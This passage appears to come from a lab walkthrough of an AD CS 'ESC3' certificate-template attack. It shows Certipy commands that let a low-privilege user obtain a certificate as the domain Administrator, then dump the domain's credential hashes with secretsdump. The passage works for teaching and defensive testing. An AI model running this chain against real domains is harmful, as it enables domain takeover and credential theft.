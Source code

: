 <img src="/images/2022-09-16/ESC3_exploit3.png">  

#### Certipy  
```
certipy req -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template 'ESC3_1'
certipy req -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template 'ESC3_2' -on-behalf-of 'mcafeelab\Administrator' -pfx lowpriv.pfx
certipy auth -pfx 'administrator.pfx' -dc-ip '10.55.0.2' -username 'Administrator' -domain 'mcafeelab.local'
secretsdump.py -just-dc -hashes 'aad3b435b514...:...f7207931' 'mcafeelab.local/Administrator@dc2016-2.mcafeelab.local'
```
